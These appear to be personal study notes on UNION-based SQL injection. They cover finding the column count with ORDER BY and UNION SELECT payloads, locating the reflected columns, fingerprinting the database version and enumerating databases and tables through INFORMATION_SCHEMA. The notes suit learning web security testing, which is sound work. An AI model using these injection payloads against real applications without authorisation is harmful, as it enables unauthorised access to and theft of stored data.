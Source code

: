 ### UNION Injection

1. Detect the number of columns by using
	- `ORDER BY`
	- `UNION`

- Using ORDER BY
	- `' ORDER BY 1 -- -`
	- `' ORDER BY 2 -- -`
	- etc until get an error and number is column is number before error
- Using UNION
	- `' UNION SELECT 1-- -`
	- `' UNION SELECT 1,2-- -`
	- etc until no error occurs

2. Find the location of Injection

- query may return multiple columns and the application may only display some of them
- very common that not every column will be displayed back to the user
- find the values from response page and note the positions and which values returned
- `We cannot place our injection at the beginning, or its output will not be printed`

- `' UNION SELECT 1,@@version,3,4-- -`

## Database Enumeration

1. Identify the type of DBMS

```
> Oracle - `SELECT banner FROM v$version`, `SELECT version FROM v$instance`, `SELECT * FROM v$version`
> Microsoft, MySQL - `SELECT @@version`  
> PostgreSQL - `SELECT version()`
```

2. INFORMATION_SCHEMA Database (MySQL)

- contains metadata about the databses and tables present on the server
- to reference a table present in another DB, can use '.' 
```sql
SELECT * FROM db_name.table_name;
```
- table `SCHEMATA` in the `INFORMATION_SCHEMA` database contains information about all databses on the server and `SCHEMA_NAME` column contains all the database names currently present and it will return single column

```sql
SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA;
-- will get names of databases
```

- can find the current database with `SELECT database()` query 

3. TABLES

- to find all tables within a database, use `TABLES` table in `INFORMATION_SHCEMA` database
- `TABLES` tables contains information all the tables throughout the database
- interested columns - 
	- `TABLE_SCHEMA` - points to the database each table belongs to
	- `TABLE_NAME` - stores table names
